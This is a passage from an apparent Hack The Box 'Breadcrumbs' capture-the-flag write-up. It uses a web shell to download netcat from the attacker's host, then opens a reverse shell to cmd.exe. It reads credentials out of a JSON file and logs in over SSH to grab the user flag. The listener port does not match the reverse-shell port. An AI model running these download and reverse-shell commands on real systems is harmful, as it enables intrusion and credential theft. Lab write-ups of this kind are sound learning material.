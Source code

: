 ```sh
?--x0ld@emp7 ~/HackTheBox/Breadcrumbs
?-?  python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.228 - - [23/Feb/2021 12:30:00] "GET /nc.exe HTTP/1.1" 200 -
```

```sh
http://10.10.10.228/portal/uploads/sanity.php?cmd=powershell%20(new-object%20Net.WebClient).DownloadFile(%27http://10.10.14.12/nc.exe%27,%27C://Users//www-data//Desktop//xampp//htdocs//portal//uploads//nc.exe%27)
```

And there we get a reverse shell.

```sh
http://10.10.10.228/portal/uploads/sanity.php?cmd=nc.exe%2010.10.14.12%203221%20-e%20c:/windows/system32/cmd.exe
```

```sh
?--x0ld@emp7 ~/HackTheBox/Breadcrumbs
?-?  nc -lvp 1337
listening on [any] 1337 ...
Ncat: Connection from 10.10.10.228.
Ncat: Connection from 10.10.10.228:50994.
Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\www-data\Desktop\xampp\htdocs\portal\uploads>
```

After a little stroll in the directories, I found a "juliette.json".

```sh
C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData>type juliette.json
type juliette.json
{
        "pizza" : "margherita",
        "size" : "large",
        "drink" : "water",
        "card" : "VISA",
        "PIN" : "9890",
        "alternate" : {
                "username" : "juliette",
                "password" : "jUli901./())!",
        }
}
```

Now, ssh with creds.

```sh
?--x0ld@emp7 ~/HackTheBox/Breadcrumbs  
?-?  ssh juliette@10.10.10.228
juliette@10.10.10.228's password:

juliette@BREADCRUMBS C:\Users\juliette>cd Desktop 
cd Desktop

juliette@BREADCRUMBS C:\Users\juliette\Desktop>type user.txt
7d9068841f1d0a2676a97fe7c0dca4cd
```
Get user flag.
